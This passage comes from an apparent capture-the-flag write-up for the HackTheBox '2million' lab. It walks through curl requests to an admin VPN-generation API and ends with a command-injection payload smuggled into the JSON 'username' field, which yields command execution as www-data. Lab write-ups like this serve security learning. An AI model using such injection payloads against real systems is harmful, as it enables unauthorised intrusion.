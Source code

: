 <img src="/images/HTB-2million/HTB-2million_API_enumeration.webp" alt="API enumeration" class="postImage 2millionImage">

<p>So, my guess is that this part of the API will now be accessible for us. Let's test that hypothesis with a curl command.</p>

<pre>
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1"                                                                         
{"status":"danger","message":"Invalid content type."}
</pre>

<p>Indeed, it is accessible! However, it asks for a JSON Content-Type. Let's provide it:</p>

<pre>
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" -H "Content-Type: application/json"                                     
{"status":"danger","message":"Missing parameter: username"}
</pre>

<p>Now it wants a username. Could it be vulnerable for command injection and thus getting us a shell this way? After some tinkering I managed to get command execution!</p>

<pre>
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" -H "Content-Type: application/json" -d '{"username":"Aion; id;"}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
